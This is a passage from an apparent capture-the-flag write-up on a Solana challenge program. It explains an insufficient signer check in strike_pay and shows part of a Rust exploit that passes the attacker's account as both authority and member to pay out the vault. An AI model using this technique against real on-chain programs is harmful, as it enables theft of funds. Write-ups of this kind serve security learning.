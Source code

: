 ### 2. Unsufficient signer checks

Now we can just call the strike_pay function and exploit the second issue. In
the function we only check if the authority is the signer (the boss of the
union paying out the money) but are not checking if the member is not the
signer, so we can just use our user for both.

### 3. The Exploit

Now we can just compile our solve script and sent it using the solve.py script
provided. We based our solve script on the scripts provided in the repo of the
framework used (https://github.com/neodyme-labs/solana-poc-framework). We also
had to compile using the versions and commands mentioned in the debug section.

So we build a rust project that used the same dependencies as the chall and
included the following 2 files.

**processor.rs**  
```  
use borsh::{BorshDeserialize, BorshSerialize};

use solana_program::{  
   account_info::{next_account_info, AccountInfo},  
   entrypoint::ProgramResult,  
   instruction::{AccountMeta, Instruction},  
   program::invoke,  
   pubkey::Pubkey,

   system_program,  
};

//use sailors_revenge::processor::SailorInstruction;  
#[derive(Debug, Clone, BorshSerialize, BorshDeserialize, PartialEq, Eq,
PartialOrd, Ord)]  
pub enum SailorInstruction {  
   CreateUnion(u64),  
   PayDues(u64),  
   StrikePay(u64),  
   RegisterMember([u8; 32]),  
}

pub fn process_instruction(  
   _program: &Pubkey,  
   accounts: &[AccountInfo],  
   _data: &[u8],  
) -> ProgramResult {  
   let account_iter = &mut accounts.iter();

   let program = next_account_info(account_iter)?;  
   let user = next_account_info(account_iter)?;  
   let vault = next_account_info(account_iter)?;  
   let sailor_union = next_account_info(account_iter)?;  
   let registration = next_account_info(account_iter)?;  
   let rich_boi = next_account_info(account_iter)?;  
   let system = next_account_info(account_iter)?;

   invoke(  
       &Instruction::new_with_borsh(  
           *program.key,  
           &SailorInstruction::StrikePay(100000000),  
           vec![  
               AccountMeta::new(*registration.key, false),  
               AccountMeta::new(*user.key, true),  
               AccountMeta::new(*user.key, true),  
               AccountMeta::new(*vault.key, false),  
```